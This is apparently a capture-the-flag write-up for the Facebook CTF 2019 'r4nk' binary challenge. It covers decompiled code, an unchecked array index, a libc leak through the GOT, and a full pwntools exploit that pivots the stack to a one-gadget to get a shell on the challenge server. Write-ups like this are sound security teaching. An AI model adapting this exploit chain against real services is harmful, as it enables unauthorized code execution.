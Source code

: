 # Facebook CTF 2019 - r4nk

```
__int64 __fastcall show(__int64 a1)
{
  __int64 v1; // rbx
  __int64 v2; // rax
  char *v3; // r8
  __int64 result; // rax

  v1 = 0LL;
  do
  {
    v2 = *(_QWORD *)(a1 + 8 * v1++);
    v3 = (&titles)[v2];
    result = __dprintf_chk(1LL, 1LL, "%i. %s\n");
  }
  while ( v1 != 12 );
  return result;
}
```
v2 is rank value which can be modified in rank().
`v3 = (&titles)[v2];` doesn't check the range. By modifying v2 value, we can do arbitrary memory read.

```
__int64 __fastcall rank(__int64 a1)
{
  __int64 v1; // rbx
  __int64 result; // rax

  write(1, "\nt1tl3> ", 9uLL);
  v1 = (signed int)sub_4007B0();
  write(1, "r4nk> ", 7uLL);
  result = (signed int)sub_4007B0();
  *(_QWORD *)(a1 + 8 * v1) = (signed int)result;
  return result;
}
```

sub_4007B0 calls read(0, nptr, 0x80). Since binary is not PIE,
the address of nptr(global variable) is static value we alreay know.
0x80 is large enough to write some values. So I wrote got address of read function at nptr,
followed by modifying rank value with the offset of nptr, and call show(). Then we can get base address of libc.

After libc leak, write address of one gadget at nptr. then calling rank(),
overwrite return address of main function with ROP chain.

ROP chain consists of
- pop rsp; pop r13; ret gadget
- address of nptr(at which garbage value for pop r13 and address of one gadget are)

```
from pwn import *

bin = ELF('./r4nk')
libc = ELF('./libc-2.27.so', checksec=False)

LOCAL = False

one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]

# context.log_level = 'debug'


def rank(title, rank):
    conn.sendlineafter('>', str(2))
    conn.sendlineafter('>', str(title))
    conn.sendlineafter('>', str(rank))


if LOCAL:
    conn = process('./r4nk', env={'LD_PRELOAD': './libc-2.27.so'})
    # gdb.attach(conn, 'b * 0x400acd')
else:
    conn = remote('challenges.fbctf.com', 1339)

conn.sendlineafter('>', str(1) + 'XXXXXXX' + p64(bin.got['read']))
rank(0, 17)
conn.sendlineafter('>', str(1) + 'XXXXXXX' + p64(bin.got['read']))
conn.recvuntil('0. ')
libc_addr = u64(conn.recv(6)+'\x00\x00') - libc.symbols['read']

log.info('Libc addr: ' + hex(libc_addr))
log.info('One gadget addr: ' + hex(libc_addr + one_gadget_offset[1]))

conn.sendlineafter('>', str(2) + 'XXXXXXXYYYYYYYYZZZZZZZZ' +
                   p64(libc_addr + one_gadget_offset[1]))
conn.sendlineafter('>', str(17))
conn.sendlineafter('>', str(0x400980))  # pop rsp; pop r13; ret
rank(18, 0x602110)

conn.sendlineafter('>', str(3))

conn.interactive()
```